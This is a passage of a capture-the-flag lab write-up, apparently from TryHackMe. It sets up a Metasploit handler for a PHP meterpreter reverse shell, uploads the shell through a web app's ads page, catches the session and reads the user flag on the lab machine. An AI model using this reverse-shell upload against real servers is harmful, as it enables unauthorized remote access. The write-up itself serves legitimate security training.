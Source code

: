 ```
Payload size: 34849 bytes

```
-----
**Starting Metasploit**

I  then start metasploit and the following commands. 
```
msfconsole -q                                                                         
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
payload => php/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.13.0.39
LHOST => 10.13.0.39
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.13.0.39:4444 
```
I then take the contents of the shell.php generated before and paste it at the following url
```
http://10.10.198.128/content/as/?type=ad
```
![Pasted image 20240125182510](https://github.com/paRaade/CTF-Writeups/assets/126734769/154f22b3-204e-4e20-84f3-9ba297d8d3e6)



The php reverse shell is accessible at the following url. Once clicked on metasploit will catch the shell and I will now have remote access to the target machine
```
http://10.10.198.128/content/inc/ads/
```
![Pasted image 20240125182623](https://github.com/paRaade/CTF-Writeups/assets/126734769/7383d701-2062-4c8e-aaed-c12ad968d4a4)



-----
**Initial Foothold** 

The user.txt flag can be found in the /home/itguy directory
```
[*] Meterpreter session 1 opened (10.13.0.39:4444 -> 10.10.198.128:58946) at 2024-01-25 18:26:27 -0500
meterpreter > getuid
Server username: www-data

meterpreter > ls /home
Listing: /home
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040755/rwxr-xr-x  4096  dir   2019-11-30 10:07:45 -0500  itguy

meterpreter > cd /home/itguy
The user flag is here

meterpreter > cd /home/itguy
meterpreter > cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}

```
